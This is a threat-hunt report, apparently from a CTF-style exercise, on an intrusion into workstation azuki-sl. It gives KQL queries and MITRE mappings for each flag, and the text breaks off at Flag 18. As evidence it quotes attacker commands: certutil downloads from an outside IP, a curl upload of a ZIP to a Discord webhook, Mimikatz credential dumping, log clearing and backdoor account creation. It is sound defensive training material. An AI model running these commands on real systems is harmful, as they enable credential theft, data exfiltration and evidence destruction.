# Threat Hunt Report – Azuki Import/Export (JADE SPIDER)

## 1. Executive Summary

On 19 November 2025, the workstation **AZUKI-SL** (IT admin workstation) from **Azuki Import/Export Trading Co.** was compromised by the financial threat actor **JADE SPIDER**.

The attacker gained **remote access via RDP** using valid credentials for the user **kenji.sato**, performed several **defense evasion** techniques, dumped credentials from **LSASS**, established **persistence**, staged data, and finally **exfiltrated a ZIP archive** with sensitive information to a **Discord webhook**. After exfiltration, the attacker attempted **lateral movement** via RDP to host **10.1.0.188**.

Evidence was collected mainly from **Microsoft Defender for Endpoint (MDE)** Advanced Hunting, using:

- `DeviceLogonEvents`
- `DeviceProcessEvents`
- `DeviceRegistryEvents`
- `DeviceFileEvents`
- `DeviceNetworkEvents`

---

## 2. Incident Description and Scope

- **Victim host:** `azuki-sl` (IT admin workstation)  
- **Primary compromised account:** `azuki-sl\kenji.sato`  
- **Initial access vector:** RDP from external IP `88.97.178.12`  
- **Threat actor:** **JADE SPIDER** (financially motivated, multi-week campaigns, data theft + potential ransomware)

### Observed Objectives

Based on observed behavior, the attacker’s goals were:

1. Obtain **persistent administrative access** to the environment.  
2. **Steal contract/pricing data** (archived as `export-data.zip`).  
3. Prepare **lateral movement** towards host `10.1.0.188`.  
4. **Remove forensic evidence** by clearing Windows event logs.

---

## 3. Timeline

| Timestamp (UTC)               | Flag | Activity Description                                         | Evidence Summary |
|-------------------------------|------|---------------------------------------------------------------|------------------|
| 2025-11-19T18:36:18.503997Z  | 1    | Successful logon from suspicious remote IP                   | User: kenji.sato · IP: 88.97.178.12 |
| 2025-11-19T18:36:18.503997Z  | 2    | Compromised account identified                               | Account: kenji.sato |
| 2025-11-19T19:04:01.7737787Z | 3    | Reconnaissance via ARP lookup                                | "ARP.EXE" -a |
| 2025-11-19T19:05:33.766Z     | 4    | Hidden directory created for malware staging                 | attrib.exe +h +s C:\ProgramData\WindowsCache |
| 2025-11-19T18:49:27.730Z     | 5    | Defender exclusions modified                                 | Extension added: .bat |
| 2025-11-19T18:49:27.756Z     | 5    | Defender exclusions modified                                 | Extension added: .ps1 |
| 2025-11-19T18:49:29.178Z     | 5    | Defender exclusions modified                                 | Extension added: .exe |
| 2025-11-19T18:49:27.683Z     | 6    | Malicious path whitelisted in Defender                       | C:\Users\KENJI~1.SAT\AppData\Local\Temp |
| 2025-11-19T19:06:58.5778439Z | 7    | Payload downloaded via certutil                              | Download: svchost.exe from 78.141.196.6:8080 |
| 2025-11-19T19:07:46.9796512Z | 8    | Malicious scheduled task created                             | "Windows Update Check" |
| 2025-11-19T19:07:46.9796512Z | 9    | Payload executed through scheduled task                      | svchost.exe from WindowsCache |
| 2025-11-19T19:11:04.176Z     | 10   | Outbound connection to C2 server                             | RemoteIP: 78.141.196.6 |
| 2025-11-19T19:11:04.176Z     | 11   | Encrypted communication with C2                              | RemotePort: 443 |
| 2025-11-19T19:07:21.0804181Z | 12   | Malware component downloaded (mm.exe)                        | certutil.exe download |
| 2025-11-19T19:08:26.2804285Z | 13   | Credential dumping using Mimikatz                            | sekurlsa::logonpasswords |
| 2025-11-19T19:08:58.024Z     | 14   | Archive created for data exfiltration                        | export-data.zip |
| 2025-11-19T19:09:21.3267384Z | 15   | Data exfiltrated to Discord using curl                       | curl upload → discord.com/api/webhooks |
| 2025-11-19T19:11:39.093Z     | 16   | Security event logs cleared                                  | wevtutil.exe cl Security |
| 2025-11-19T19:09:48.897Z     | 17   | Unauthorized user account created                            | net.exe user support /add |
| 2025-11-19T18:49:48.7079818Z | 18   | Malicious script dropped in Temp                             | wupdate.ps1 |
| 2025-11-19T19:10:37.262Z     | 19   | Stored credentials accessed using cmdkey                     | Target: 10.1.0.188 |
| 2025-11-19T19:10:41.372Z     | 20   | Interactive RDP lateral movement detected                    | mstsc.exe /v:10.1.0.188 |

---

## 4. Technical Findings – Flag by Flag

> Format: **Objective / Finding / Evidence / KQL / Why it matters / MITRE**

---

### Flag 1 – INITIAL ACCESS – Remote Access Source

**Objective**  
Identify the external IP responsible for the initial RDP access.

**Finding**  
RDP session established from `88.97.178.12`.

**Evidence**  



**KQL**

```kql
DeviceLogonEvents
| where DeviceName == "azuki-sl"
| where Timestamp between (datetime(2025-11-19) .. datetime(2025-11-20))
| where ActionType == "LogonSuccess"
| project Timestamp, AccountDomain, AccountName, LogonType, ActionType, RemoteIP, AdditionalFields
| order by Timestamp asc
```

**Why it matters**  
Confirms this is an **external RDP intrusion using valid credentials**, not an internal login. Supports actions such as blocking the IP, geofencing, and hunting for previous attempts from the same address.

**MITRE**  
`T1133 – External Remote Services (RDP)`

---

### Flag 2 – INITIAL ACCESS – Compromised User Account

**Objective**  
Determine which account was used for the unauthorized remote access.

**Finding**  
Compromised account: `azuki-sl\kenji.sato`.

**Evidence**  



**KQL**

```kql
DeviceLogonEvents
| where DeviceName == "azuki-sl"
| where Timestamp between (datetime(2025-11-19) .. datetime(2025-11-20))
| where ActionType == "LogonSuccess"
| project Timestamp, AccountDomain, AccountName, LogonType, ActionType, RemoteIP, AdditionalFields
| order by Timestamp asc
```

**Why it matters**  
`kenji.sato` has administrative privileges on the workstation, enabling the attacker to run admin tools and facilitate lateral movement.

**MITRE**  
`T1078 – Valid Accounts`

---

### Flag 3 – DISCOVERY – Network Reconnaissance

**Objective**  
Identify commands used for network discovery.

**Finding**  
The attacker executed:

- `ipconfig.exe /all`  
- `ARP.EXE -a`

**Evidence**



**KQL**

```kql
DeviceProcessEvents
| where DeviceName == "azuki-sl"
| where Timestamp between (datetime(2025-11-19) .. datetime(2025-11-20))
| where ProcessCommandLine has_any ("ipconfig", "arp", "getmac")
| project Timestamp, FileName, ProcessCommandLine
| order by Timestamp asc
```

**Why it matters**  
Provides information about network interfaces, IP ranges, gateways and neighboring hosts (via ARP), supporting later lateral movement.

**MITRE**  
- `T1016 – System Network Configuration Discovery`  
- `T1049 – System Network Connections Discovery`

---

### Flag 4 – DEFENSE EVASION – Malware Staging Directory

**Objective**  
Identify the directory used to stage tools and stolen data.

**Finding**  
Creation and hiding of: `C:\ProgramData\WindowsCache`.

**Evidence**



**KQL**

```kql
DeviceProcessEvents
| where DeviceName == "azuki-sl"
| where Timestamp between (datetime(2025-11-19) .. datetime(2025-11-20))
| where ProcessCommandLine contains "mkdir"
    or ProcessCommandLine contains "New-Item"
    or ProcessCommandLine contains "attrib"
| project Timestamp, FileName, ProcessCommandLine
| order by Timestamp asc
```

**Why it matters**  
`ProgramData` plus `+h +s` attributes indicates a **hidden staging directory** for tools (`mm.exe`, `svchost.exe`) and exfiltration archives, reducing visibility to users and some tools.

**MITRE**  
- `T1564 – Hide Artifacts`  
- `T1105 – Ingress Tool Transfer` (combined with later downloads)

---

### Flag 5 – DEFENSE EVASION – File Extension Exclusions

**Objective**  
Identify file extensions excluded from Microsoft Defender.

**Finding**  
Defender exclusions added for:

- `.bat`  
- `.ps1`  
- `.exe`

**Evidence**



**KQL**

```kql
DeviceRegistryEvents
| where DeviceName == "azuki-sl"
| where Timestamp between (datetime(2025-11-19) .. datetime(2025-11-20))
| where RegistryKey contains @"Windows Defender\Exclusions\Extensions"
| project Timestamp, RegistryKey, RegistryValueName, RegistryValueData, ActionType
| order by Timestamp asc
```

**Why it matters**  
These exclusions allow malicious scripts and binaries to run **without AV scanning**, significantly lowering detection chances.

**MITRE**  
`T1562.001 – Impair Defenses: Disable or Modify Tools`

---

### Flag 6 – DEFENSE EVASION – Temporary Folder Exclusion

**Objective**  
Identify the excluded directory under Defender path exclusions.

**Finding**  
Excluded path:

- `C:\Users\KENJI~1.SAT\AppData\Local\Temp`

**Evidence**



**KQL**

```kql
DeviceRegistryEvents
| where DeviceName == "azuki-sl"
| where Timestamp between (datetime(2025-11-19) .. datetime(2025-11-20))
| where RegistryKey contains @"Windows Defender\Exclusions\Paths"
| project Timestamp, RegistryKey, RegistryValueName, RegistryValueData, ActionType
| order by Timestamp asc
```

**Why it matters**  
`%TEMP%` is a common staging area for malware. Excluding it allows the attacker to freely download and execute payloads from there.

**MITRE**  
`T1562.001 – Impair Defenses`

---

### Flag 7 – DEFENSE EVASION – Download Utility Abuse

**Objective**  
Identify native Windows binaries abused to download malware.

**Finding**  
Abuse of `certutil.exe` to download `svchost.exe` and `mm.exe` from `78.141.196.6:8080`.

**Evidence**


**KQL**

```kql
DeviceProcessEvents
| where DeviceName == "azuki-sl"
| where Timestamp between (datetime(2025-11-19) .. datetime(2025-11-20))
| where ProcessCommandLine contains "http" or ProcessCommandLine contains "https"
| project Timestamp, ProcessCommandLine, FileName, FolderPath
| order by Timestamp asc
```

Results show:

- `certutil.exe -urlcache -f http://78.141.196.6:8080/svchost.exe ...`  
- `certutil.exe -urlcache -f http://78.141.196.6:8080/mm.exe ...`

**Why it matters**  
`certutil.exe` is a signed Windows binary (LOLBAS). Using it for downloads blends malicious traffic with legitimate administration activity.

**MITRE**  
- `T1105 – Ingress Tool Transfer`  
- `T1218.010 – Signed Binary Proxy Execution: Certutil`

---

### Flag 8 – PERSISTENCE – Scheduled Task Name

**Objective**  
Identify the scheduled task used for persistence.

**Finding**  
Scheduled task name: **"Windows Update Check"**.

**Evidence**


**KQL**

```kql
DeviceProcessEvents
| where DeviceName == "azuki-sl"
| where Timestamp between (datetime(2025-11-19) .. datetime(2025-11-20))
| where ProcessCommandLine contains "schtasks.exe"
| project Timestamp, ProcessCommandLine, FileName, FolderPath
| order by Timestamp asc
```

**Why it matters**  
A benign-looking task name hides persistence, executed under SYSTEM, making it harder to spot during casual review.

**MITRE**  
`T1053.005 – Scheduled Task/Job`

---

### Flag 9 – PERSISTENCE – Scheduled Task Target

**Objective**  
Identify the binary executed by the scheduled task.

**Finding**  
Task target: `C:\ProgramData\WindowsCache\svchost.exe`.

**Evidence**  



**KQL**

```kql
DeviceProcessEvents
| where DeviceName == "azuki-sl"
| where Timestamp between (datetime(2025-11-19) .. datetime(2025-11-20))
| where ProcessCommandLine contains "schtasks.exe"
| project Timestamp, ProcessCommandLine, FileName, FolderPath
| order by Timestamp asc
```

**Why it matters**  
`svchost.exe` running from a **non-standard path** strongly indicates a masqueraded backdoor or loader.

**MITRE**  
- `T1036 – Masquerading`  
- `T1053.005 – Scheduled Task/Job`

---

### Flags 10 & 11 – COMMAND & CONTROL – C2 Address and Port

**Objective**  
Identify C2 IP and port.

**Finding**

- **C2 IP:** `78.141.196.6`  
- **C2 Port:** `443`

**Evidence**




**KQL**

```kql
DeviceNetworkEvents
| where DeviceName == "azuki-sl"
| where Timestamp between (datetime(2025-11-19) .. datetime(2025-11-20))
| where InitiatingProcessFolderPath contains @"C:\ProgramData\WindowsCache"
| project Timestamp, InitiatingProcessFileName, InitiatingProcessFolderPath, RemoteIP, RemotePort, Protocol
| order by Timestamp asc
```

**Why it matters**  
Defines the active **C2 endpoint** used for command/control and possibly exfiltration. Must be blocked and hunted across the estate.

**MITRE**  
- `T1071.001 – Application Layer Protocol: Web Protocols`  
- `T1105 / T1041` when combined with data transfer

---

### Flag 12 – CREDENTIAL ACCESS – Credential Theft Tool

**Objective**  
Identify the tool used for credential theft.

**Finding**  
Use of `mm.exe`, a renamed **Mimikatz** binary.

**Evidence**


**KQL**

```kql
DeviceProcessEvents
| where DeviceName == "azuki-sl"
| where Timestamp between (datetime(2025-11-19) .. datetime(2025-11-20))
| where  FileName == "certutil.exe"
| project Timestamp, ProcessCommandLine, FileName, FolderPath
| order by Timestamp asc
```

Shows `mm.exe` executed from `C:\ProgramData\WindowsCache\mm.exe` with arguments including `privilege::debug sekurlsa::logonpasswords exit`.

**Why it matters**  
Confirms classic **Mimikatz behavior**, implying all credentials present in LSASS at that time should be treated as compromised.

**MITRE**  
`T1003.001 – OS Credential Dumping (LSASS Memory)`

---

### Flag 13 – CREDENTIAL ACCESS – Memory Extraction Module

**Objective**  
Identify the specific module used to dump credentials.

**Finding**  
Command: `sekurlsa::logonpasswords`.

**Evidence**



**KQL**

```kql
DeviceProcessEvents
| where DeviceName == "azuki-sl"
| where ProcessCommandLine contains "::"
| project Timestamp, FileName, ProcessCommandLine
| order by Timestamp asc
```

**Why it matters**  
`sekurlsa::logonpasswords` extracts cleartext credentials, NTLM hashes and Kerberos tickets directly from LSASS, enabling high-impact lateral movement.

**MITRE**  
`T1003.001 – OS Credential Dumping`

---

### Flag 14 – COLLECTION – Data Staging Archive

**Objective**  
Identify the ZIP archive used for data staging.

**Finding**  
Archive name: `export-data.zip` in `C:\ProgramData\WindowsCache`.

**Evidence**



**KQL**

```kql
DeviceFileEvents
| where DeviceName == "azuki-sl"
| where FolderPath contains @"C:\ProgramData\WindowsCache"
| where FileName endswith ".zip"
| project Timestamp, FileName, FolderPath, ActionType
| order by Timestamp asc
```

**Why it matters**  
Represents the **staged dataset** ready for exfiltration. Critical for assessing data loss and impact.

**MITRE**  
- `T1560.001 – Archive Collected Data`  
- `T1074.001 – Local Data Staging`

---

### Flag 15 – EXFILTRATION – Exfiltration Channel

**Objective**  
Identify the external service used for data exfiltration.

**Finding**  
Exfiltration via **Discord** (webhook on `discord.com`).

**Evidence**



**KQL**

```kql
DeviceProcessEvents
| where DeviceName == "azuki-sl"
| where Timestamp between (datetime(2025-11-19) .. datetime(2025-11-20))
| where ProcessCommandLine contains "export-data.zip"
| project Timestamp, FileName, ProcessCommandLine
| order by Timestamp asc
```

Command line includes `curl.exe -F file=@C:\ProgramData\WindowsCache\export-data.zip https://discord.com/api/webhooks/...`.

**Why it matters**  
Discord webhooks use HTTPS and blend in with benign web traffic, making exfiltration harder to detect.

**MITRE**  
- `T1567.002 – Exfiltration to Cloud Storage / Web Service`  
- `T1071.001 – Web Protocols`

---

### Flag 16 – ANTI-FORENSICS – Log Tampering

**Objective**  
Determine which log was cleared first.

**Finding**  
First log cleared: **Security**.

**Evidence**


**KQL**

```kql
DeviceProcessEvents
| where DeviceName == "azuki-sl"
| where Timestamp between (datetime(2025-11-19) .. datetime(2025-11-20))
| where FileName == "wevtutil.exe"
| where ProcessCommandLine contains "cl"
| project Timestamp, FileName, ProcessCommandLine
| order by Timestamp asc
```

Sequence:

1. `wevtutil.exe cl Security`  
2. `wevtutil.exe cl System`  
3. `wevtutil.exe cl Application`

**Why it matters**  
Prioritizing the **Security** log indicates a deliberate attempt to erase evidence of logons, privilege escalation and other activities.

**MITRE**  
`T1070.001 – Clear Windows Event Logs`

---

### Flag 17 – IMPACT / PERSISTENCE – Local Backdoor Account

**Objective**  
Identify the local account created for persistence.

**Finding**  
Local account created: `support`, added to `Administrators`.

**Evidence**



**KQL**

```kql
DeviceProcessEvents
| where DeviceName == "azuki-sl"
| where ProcessCommandLine contains "net"
      and ProcessCommandLine contains "add"
| project Timestamp, FileName, ProcessCommandLine
| order by Timestamp asc
```

Shows `net user support ... /add` and `net localgroup Administrators support /add`.

**Why it matters**  
Provides a **human backdoor** even if primary credentials are rotated.

**MITRE**  
- `T1136.001 – Create Account: Local Account`  
- `T1078.003 – Valid Accounts: Local Admin`

---

### Flag 18 – EXECUTION – Malicious Script in Temp

**Objective**  
Identify the malicious script used to orchestrate the attack.

**Finding**  
Script: `wupdate.ps1` in `%TEMP%`.

**Evidence**


**KQL**

```kql
DeviceFileEvents
| where DeviceName == "azuki-sl"
| where FolderPath contains @"AppData\Local\Temp"
| where FileName endswith ".ps1" or FileName endswith ".bat"
| project Timestamp, FileName, FolderPath, ActionType
| order by Timestamp asc
```

**Why it matters**  
